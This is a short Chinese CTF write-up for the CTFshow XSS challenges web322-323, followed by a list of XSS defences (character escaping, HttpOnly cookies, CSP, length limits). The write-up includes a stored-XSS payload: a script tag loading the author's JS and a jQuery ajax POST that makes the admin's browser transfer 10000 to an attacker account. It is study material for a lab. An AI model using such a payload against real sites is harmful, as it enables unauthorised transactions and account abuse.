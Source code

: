 ## web322-323

一个是get请求，一个是post请求，payload类似web331，主要是向admin那里转账到自己注册的新号，然后去买flag就行了，当然你们可以发现题目其实有个小漏洞，自己向自己转钱钱也还会越来越多

好吧考虑到大家水平我把这道题发个payload,两道题分别是get和post，我们知道jquery的这个ajax不能携带cookie请求，所以有点麻烦，但是如果是本地请求就刚好绕过了这一点，我们先创建一个号

```
<script src=我自己的js利用脚本内容是下面这个></script>
```

（记得映射公网），之后登陆退出后，再创建一个名为y4tacker坐等收钱

```
$.ajax({
                url: "http://127.0.0.1/api/amount.php",
                method: "POST",
                data:{
                    'u':'y4tacker',
                    'a':10000
                },
                cache: false,
                success: function(res){                  

            }});
```

复制粘贴Y4tacker的文章 [[CTFSHOW]XSS入门(佛系记录)](https://blog.csdn.net/solitudi/article/details/111568030?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522167538790616782425695490%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fblog.%2522%257D&request_id=167538790616782425695490&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~blog~first_rank_ecpm_v1~rank_v31_ecpm-4-111568030-null-null.blog_rank_default&utm_term=xss&spm=1018.2226.3001.4450)

# 防御

**1**、过滤一些危险字符，以及转义& < > " ' 等危险字符

自定义过滤函数引用

**2**、HTTP-only Cookie

https://www.php.cn/php-ask-457831.html

php.ini设置或代码引用

session.cookie_httponly =1

ini_set("session.cookie_httponly", 1);

**3**、设置CSP(Content Security Policy)

https://blog.csdn.net/a1766855068/article/details/89370320

header("Content-Security-Policy:img-src 'self' ");

**4**、输入内容长度限制，实体转义等


